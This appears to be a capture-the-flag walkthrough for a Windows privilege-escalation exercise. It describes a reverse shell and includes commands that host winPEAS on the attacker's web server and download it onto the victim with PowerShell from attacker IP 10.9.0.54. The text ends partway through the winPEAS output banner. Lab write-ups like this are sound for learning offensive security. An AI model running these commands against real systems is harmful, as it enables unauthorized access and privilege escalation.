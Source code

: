 In this task we will escalate our privileges without the use of meterpreter/metasploit! 

Firstly, we will pivot from our netcat session that we have established, to a more stable reverse shell.

Once we have established this we will use winPEAS to enumerate the system for potential vulnerabilities, before using this information to escalate to Administrator.

## #5.1 - Now we can generate a more stable shell using msfvenom, instead of using a meterpreter, This time let's set our payload to windows/shell_reverse_tcp

Let's first download winPEAS.bat and make it available through our web server:

~~~
$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
$ python -m http.server
~~~

## #5.2 - After generating our payload we need to pull this onto the box using [powershell](https://tryhackme.com/room/powershell). Tip: It's common to find C:\Windows\Temp is world writable!

In our reverse shell, we can now download WinPEAS:

~~~
powershell -c "Invoke-WebRequest -Uri 'http://10.9.0.54:8000/WinPEAS.bat' -OutFile 'c:\windows\temp\winpeas.exe'"
~~~

## #5.3

**Instructions**

Now you know how to pull files from your machine to the victims machine, we can pull winPEAS.bat to the system using the same method! ([You can find winPEAS here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat))

WinPeas is a great tool which will enumerate the system and attempt to recommend potential vulnerabilities that we can exploit. The part we are most interested in for this room is the running processes!

Tip: You can execute these files by using .\filename.exe

Using winPeas, what was the Original Install time? (This is date and time)

*Hint: powershell -c "Invoke-WebRequest -Uri 'ip/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"*

**Answer**

WinPEAS is now installed on the target, let's execute it:

~~~
.\winpeas.bat
c:\Windows\Temp>.\winpeas.bat
            *((,.,/((((((((((((((((((((/,  */               
     ,/*,..*(((((((((((((((((((((((((((((((((,           
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*       
   ((((((((((((((((* *****,,,/########## .(* ,((((((   
   (((((((((((/* ******************/####### .(. ((((((
   ((((((..******************/@@@@@/***/######* /((((((
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
~~~